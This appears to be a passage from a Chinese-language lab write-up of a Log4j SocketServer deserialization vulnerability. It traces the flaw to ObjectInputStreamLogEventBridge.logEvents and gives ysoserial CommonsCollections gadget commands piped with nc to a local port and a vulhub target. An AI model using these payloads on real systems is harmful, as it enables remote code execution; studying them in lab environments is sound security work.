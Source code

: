 在 **SocketHandler** 类的 **run** 方法中， **ObjectInputStream**对象数据被传入了 **ObjectInputStreamLogEventBridge** 类的 **logEvents**方法，而反序列化就发生在这个方法中。

![image-20230713155701764](img/image-20230713155701764.png)

就是这样。

（3）漏洞利用

> 本地环境漏洞利用：

```
java -jar ysoserial-all.jar CommonsCollections3 calc >> payload.bin
cat payload.bin | nc 127.0.0.1 8888
```

> vulhub 靶场环境，使用工具 ysoserial

```
java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" | nc 192.168.1.189 4712

```

![image-20230712163753249](img/image-20230712163753249.png)

![image-20230712163807743](img/image-20230712163807743.png)
